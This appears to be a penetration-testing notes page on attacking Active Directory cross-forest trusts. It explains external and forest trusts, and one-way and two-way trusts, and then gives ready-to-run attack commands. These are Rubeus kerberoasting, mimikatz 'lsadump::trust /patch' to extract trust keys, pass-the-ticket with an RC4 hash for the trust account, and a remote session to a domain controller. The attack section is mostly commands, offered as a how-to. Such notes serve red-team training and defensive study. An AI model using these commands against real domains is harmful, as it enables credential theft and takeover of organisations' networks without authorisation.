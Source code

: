 # Cross Forest Attacks

In **Active Directory (AD)**, a **trust** is a connection between the authentication systems of two domains, allowing users from one domain to access resources in another. Trusts exist both **within a single AD forest** and **between separate forests (cross-forest trusts).** There are many ways to attack cross-forest trusts.

{% hint style="info" %}
**Types of Cross-Forest Trusts**

1. **External Trust**: Connects 2 separate domains in different hosts, that do not have a forest trust, and uses SID filtering to prevent SID History abuse.
2. **Forest Trust**: Connects 2 entire entire AD forest allowing users from one forest to authenticate across all domains in the other forest. If **Domain A trusts Forest X**, then **any user from Forest X** can access **any domain in Forest A**.
{% endhint %}

<table><thead><tr><th width="213"></th><th>One-Way Trust</th><th>Two-Way Trust</th></tr></thead><tbody><tr><td>Direction of Access</td><td>Trusted → Trusting</td><td><strong>Both ways</strong> (Bidirectional)</td></tr><tr><td>Who Can Access What?</td><td>Users in the <strong>trusted domain</strong> can access the <strong>trusting domain</strong>, but <strong>not vice versa</strong>.</td><td>Users from <strong>both domains/forests</strong> can access each other's resources.</td></tr><tr><td>Common Use Case</td><td>A <strong>parent company</strong> allows employees from a <strong>subsidiary</strong> to access shared resources, but <strong>not the other way around</strong>.</td><td><strong>Common in large organizations</strong> where domains need to share resources freely.</td></tr><tr><td>Security Risk</td><td><strong>Lower risk</strong>, as access is limited to one direction.</td><td><strong>Higher risk</strong>, since a <strong>compromise in one domain/forest</strong> can affect the other.</td></tr></tbody></table>

#### **In a nutshell**

* AD **trusts** allow users in different domains/forests to access resources.
* **External Trusts** are **more restrictive** and use **SID Filtering**.
* **Forest Trusts** are **more flexible but riskier** because they allow **full authentication across forests**.
* **One-Way Trusts** allow access in only **one direction**, while **Two-Way Trusts** allow access in **both directions**.
* Attackers can **abuse trust relationships** if security is not properly configured.

### <mark style="color:yellow;">Kerberoasting targeting a Domain</mark>

```powershell-session
.\Rubeus.exe kerberoast /domain:logistics.ad /user:holly
```

### <mark style="color:yellow;">Trust Account Attack</mark>

In above example we see a one-way trust from Forest A to Forest B, the access works from A to B but not the other way around. To brake this rule we can perform a Trust Account Attack.

{% hint style="info" %}
When a trust is created, a **trust account (A$) is automatically created in Forest-B**. This account is just a **regular domain user** in Forest-B. Attackers in **Forest-A** can **steal the credentials** of this trust then login to **Forest-B** bypassing one-way restriction.
{% endhint %}

```powershell
# Enumerate
Get-ADTrust -Identity megacorp.ad  

# SharpHound domain
.\SharpHound.exe -c All -d megacorp.ad

# Extract Forest Trust Keys
.\mimikatz.exe "lsadump::trust /patch" exit

# Request ticket for logistics$
.\Rubeus.exe asktgt /user:logistics$ /domain:megacorp.ad /rc4:68e456d3a95cc748ac5a2eae679b9c91 /ptt

# Kerberoast
.\Rubeus.exe kerberoast /domain:megacorp.ad

# Or request a ticket
.\Rubeus.exe asktgt /user:white.beard /password:<SNIP> /domain:megacorp.ad /ptt  

# New PS Session
New-PSSession DC03.megacorp.ad  
```
